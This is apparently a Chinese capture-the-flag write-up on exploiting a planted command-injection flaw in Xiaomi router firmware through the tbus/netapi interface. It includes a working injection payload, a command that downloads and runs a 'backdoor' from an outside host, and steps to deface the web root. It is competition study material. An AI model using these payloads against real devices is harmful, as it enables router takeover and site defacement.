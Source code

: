 # QWB-2021-Final:RealWorld MiRouter WriteUp
>Redbud IoT     

[toc]
## 0x01 题目：
![题目](./img/question.jpg)

## 0x02 总体思路
### 1)审题
通过题目的说明，我们可以判断几个结论：   
1. 提供ssh，很大可能是小米提供的开发版固件。（后面验证确实）   
2. 题目说刷入patch，本次RW估计是埋的漏洞，而非0day或者1day。    
### 2)Diff
打包固件文件，并通过后台发现固件版本为：2.13.65。    
下载相同版本固件（http://bigota.miwifi.com/xiaoqiang/rom/r3p/miwifi_r3p_firmware_daddf_2.13.65.bin）进行对比。 

结果有/etc/配置文件不同，以及lua脚本（/usr/lib/lua/traffic.lua），该脚本最为可疑如下： 

![diff](./img/diff.png)
发现是疑似命令注入过滤去掉`$`的转义，这样就可以通过`$()`的方式触发命令注入漏洞。   
### 3)binary关联分析
已经知道了出题人埋的漏洞点，现在要确认该lua脚本谁调用的。
1. 通过字符串匹配，可以找到/usr/sbin/netapi加载了该lua脚本。  
2. 通过如下通信关系，可以发现netapi与trafficd通信，trafficd作为服务开放了784端口。   
```
tcp 0 0 127.0.0.1:784 127.0.0.1:25351 ESTABLISHED 56 4352 5218/trafficd 
tcp 0 0 127.0.0.1:25351 127.0.0.1:784 ESTABLISHED 28 4388 5440/netapi  
```
其实通过分析发现:    
- trafficd是个魔改ubusd的一个总线通信服务程序。  
- netapi而是作为ubus客户端与总线注册和通信。    
- traffic.lua呗netapi加载调用。   

我们在小米固件中也发现tbus程序，可以监听tbus总线信息，通过tbus list就可以发现netapi注册对象。   
```
>tbus list
>netapi
```
### 4）攻击链猜测
`发送payload---->trafficd（784）--[转发payload]-->netapi--[解析参数]-->traffic.lua---->触发命令注入获取Root Shell----->上黑页`
### 小节
到此，我们发现2个binary和一个lua脚本要分析,漏洞类型为命令注入漏洞。我们需要知道如何给trafficd发送消息，以及发送什么消息。   
发送消息的方法可以通过`tbus call`，发送什么消息向那个event就需要逆向分析了。

## 0x03 程序分析

### 1) /usr/lib/lua/traffic.lua
核心代码如下，cmdfmt就是用于防命令注入的函数（diff点），通过trafficd_lua_ecos_pair_verify(repeater_token)函数传入触发命令注入执行。
![](./img/lua.png)

这样trafficd_lua_ecos_pair_verify，repeater_token两个关键词在后续分析就较为重要。   

### 2） /usr/sbin/netapi
#### 逆向分析

通过字符串定位到如下位置，netapi加载traffic.lua，然后调用trafficd_lua_ecos_pair_verify函数，传参执行。   
![](./img/netapi1.png)
既然我们已经知道它是作为tbus的通信客户端，也知道到如何触发命令注入，所以我们现在就要搞清楚，tbus（ubus）的注册method和data。   
```
tbus call netapi <method> <data>
```
我们上述定位的函数sub_402070()，其实就是注册调用的回调函数，因为其功能是当消息过来之后xxx功能如何处理xxx数据。      
但是交叉索引找不到谁调用了sub_402070()。    
这我们就需要先了解下ubus如何注册订阅的，如下代码ubus客户端，需要ubus_subscriber结构对象来注册，该结构体包括了name,path,method,cb等，我们关心的参数，所以我们找到谁引用0x402070函数指针，ida没有识别出来，需要我们自己解决。         
```
static struct ubus_subscriber test_event;  
...
/* 通知到来时的处理函数。 */  
test_event.cb = test_notify;  
test_event.remove_cb = test_handle_remove; //server主动发起删除该client的订阅的cb函数（如server退出的时候）  

/* 注册test_event */  
ret = ubus_register_subscriber(ctx, &test_event);  
```
https://e-mailky.github.io/2017-08-14-ubus2

struct ubus_subscriber:   
```
121 struct ubus_object {
122         struct avl_node avl;
123 
124         const char *name;
125         uint32_t id;
126 
127         const char *path;
128         struct ubus_object_type *type;
129 
130         ubus_state_handler_t subscribe_cb;
131         bool has_subscribers;
132 
133         const struct ubus_method *methods;
134         int n_methods;
135 };
136 
137 struct ubus_subscriber {
138         struct ubus_object obj;
139 
140         ubus_handler_t cb;
141         ubus_remove_handler_t remove_cb;
142 };
```
https://lxr.openwrt.org/source/ubus/libubus.h#L34

通过地址0x402070搜索结果如下：   
![](./img/netapi-s.png)
跳转过去如下：   
![](./img/netapi6.png)
修复后如下：
![](./img/netapi3.png)
![](./img/netapi5.png)

到这我们知道method为init。    
```
tbus call netapi init <data>
```
最后就是数据格式了，通过固件全局搜tbus，会发现很多tbus执行脚本，我们知道后面的数据为json格式，还是之前的处理函数，通过该语句我们知道其处理获取data参数数据。
```
blobmsg_parse(&off_4061D0, 1, &v31, a5 + 1, (v7 & 0xFFFFFF) - 4);
//&off_4061D0 = data
```
最终获取的tbus命令如下：
```
tbus call netapi init '{"data":"re1111111"}'
```
#### 调试
其实在整个过程中我们可以重启netapi 开启level=5，打印调试信息。
`/usr/sbin/netapi -l 5`

![](./img/netapi4.png)

### 3）/usr/sbin/trafficd
得知其作为tbusd服务程序，就不需要深入分析了。


## 0x04 漏洞利用
如下方式可以执行命令：
```
tbus call netapi init '{"data":"re$(touch /tmp/re111)"}'
```
可以下载后门执行获取shell:   
```
tbus call netapi init '{"data":"re$(wget http://192.168.31.7:8000/backdoor -O /tmp/backdoor ; chmod +x /tmp/backdoor ; /tmp/backdoor )111"}'
```
在这拿到shell并不代表结束，我们还需要写黑页，因为该文件系统是只读无法直接修改，我们可以通过重挂在的方式完成该任务。     
* `cp -r /www /tmp/fake_www`；
* `mount -o loop /tmp/fake_www /www`；
* 修改 `/tmp/fake_www/index.html` 为黑页即可。

## 0x05 武器化
我们以上的测试都是通过tbus完成，最终我们想利用有两个方法：
1. qemu+tbus程序
2. 抓流量写脚本

最终我们比赛中采用抓流量写脚本的方式，较为稳定。    
